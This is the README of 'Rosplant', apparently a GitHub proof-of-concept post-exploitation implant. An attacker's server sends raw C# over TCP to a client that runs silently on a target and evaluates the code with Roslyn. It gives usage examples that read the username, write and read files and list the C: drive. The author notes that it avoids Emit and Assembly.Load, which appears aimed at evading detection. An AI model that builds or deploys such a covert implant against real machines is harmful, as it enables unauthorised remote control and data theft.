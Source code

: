## Rosplant

Proof of concept to leverage Roslyn for post-exploitation (Roslyn + Implant = Rosplant).  It comes in two parts, the server and client.

Raw C# is entered into the server's console by the attacker, which is sent to the client (via TCP for the PoC).  The client uses Roslyn to evaluate the code and sends the results back to the attacker.

Aspects to note:

- Using statements must be included or the full namespaces used.
- Use Shift+Enter for soft newlines.
- Compilation errors are also returned.

### Example Usage
Run the server first.

```
PS C:\Rosplant\RoslynServer> dotnet run
Waiting for client...
```

Run the client app on a target, it produces no output.

```
PS C:\> .\RoslynApp.exe
```

The server will note the connection.

```
PS C:\Users\Daniel\source\repos\Rosplant\RoslynServer> dotnet run
Waiting for client... connected!
>
```

Write code.

```
> 1 + 1
2

> var x = 1;
  x++;
  x++;
  x
3

> System.Environment.UserName
Daniel

> using System;
  Environment.UserName
Daniel

> System.DateTime.UtcNow
16/09/2021 12:55:13

> System.Environment.DoesNotExist
(1,20): error CS0117: 'Environment' does not contain a definition for 'DoesNotExist'
```

The app returns the string "Done" if the C# evaluation does not produce a result.  This is mainly because my basic code for reading/writing to the network stream sucks.

```
> System.IO.File.WriteAllText("C:\\Temp\\test.txt", "This is a test");
Done

> var text = System.IO.File.ReadAllText("C:\\Temp\\test.txt");
  text
This is a test
```

More complicated code can also be used.

```
> using System.IO;
  using System.Text;

  var files = Directory.GetFiles("C:\\");
  var sb = new StringBuilder();
  foreach (var file in files)
  {
      var info = new FileInfo(file);
      sb.AppendLine(info.FullName);
  }
  var result = sb.ToString();
  result
C:\DumpStack.log
C:\DumpStack.log.tmp
C:\hiberfil.sys
C:\pagefile.sys
C:\swapfile.sys
```

I find all this interesting since it uses `CSharpScript.RunAsync()` to evalate the code.  There is no Emit or Assembly.Load.

A lot of improvements could be made such as adding common namespaces by default and loading external references or nuget packages.